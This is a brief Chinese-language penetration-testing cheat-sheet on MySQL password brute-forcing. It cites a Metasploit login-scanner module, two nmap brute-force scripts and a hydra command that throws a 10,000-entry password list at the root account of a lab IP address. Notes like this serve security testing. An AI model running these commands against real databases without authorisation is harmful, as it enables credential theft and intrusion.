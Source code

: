 # 渗透

## 密码爆破

 https://xz.aliyun.com/t/1652 

### mysql

```
msf:auxiliary/scanner/mysql/mysql_login
nmap:/usr/share/nmap/scripts/mysql-brute.nse和/usr/share/nmap/scripts/mysql-empty-password.nse
hydra -l root -P /root/Desktop/top10000pwd.txt -t 16 192.168.157.130 mysql
```

